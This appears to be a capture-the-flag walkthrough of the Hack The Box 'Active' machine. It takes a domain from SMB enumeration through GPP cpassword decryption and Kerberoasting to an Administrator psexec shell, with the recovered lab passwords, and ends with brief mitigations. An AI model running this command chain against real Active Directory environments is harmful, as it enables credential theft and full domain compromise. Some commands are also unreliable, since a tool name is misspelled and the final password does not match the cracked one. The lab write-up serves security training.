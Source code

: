 	smbclient -L \\\\10.10.10.100\\
	
Lets Connect using **Replication**

	smbclient -L \\\\10.10.10.100\\Replication
	
We got **Access** to dat machine!

Now **change some settings**:

	prompt off
	
	recurse on
	
**Grab** them Files!

	mget *
	
We see **Groups.xml**, we have

	name="active.htb\SVC_TGS"
	cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

now :) **Pro Gamer Move!**

	gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
	
	GPPstillStandingStrong2k18

But note that `\\Replication` doesn't always work, so **try getting a Domain User Account!**

### Privesc that Machine!

	psexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
	
We see that **nothing is Writable :(**

Let's try **Kerberoasting** (Hint: SVC_TGS is **Ticket Granting Service!**)  

	GetUsersSPN.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
	
Whoa! We got a **Service Ticket**! Crack that **Hash**!

	Administrator:Ticketmaster1968

:)

	psexec.py active.htb/Administrator:Ticketmaster@10.10.10.100

**Get da Flag!**

<br>

### Mitigations

- Perform an accounting of group policies that apply credentials.
-  A search of the SYSVOL share for the files that contain the credentials can also be performed with a script. Microsoft even supplies such a script in kb article 2962486 ([https://support.microsoft.com/en-us/kb/2962486](https://support.microsoft.com/en-us/kb/2962486)).
- If GPPs are used to apply local administrator accounts, Microsoft also has the Local Administrator Password Solution (LAPS) tool ([https://www.microsoft.com/en-us/download/details.aspx?id=46899)](https://www.microsoft.com/en-us/download/details.aspx?id=46899)) to help provision these accounts without group policy preferences.
